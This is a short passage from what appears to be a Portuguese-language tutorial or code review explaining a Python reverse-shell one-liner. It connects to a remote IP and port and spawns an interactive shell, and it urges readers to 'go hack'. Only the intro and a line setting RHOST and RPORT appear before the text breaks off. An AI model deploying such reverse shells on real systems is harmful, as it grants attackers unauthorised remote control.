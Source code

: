 # Code Review de um Reverse Shell <h1>

Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!


~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
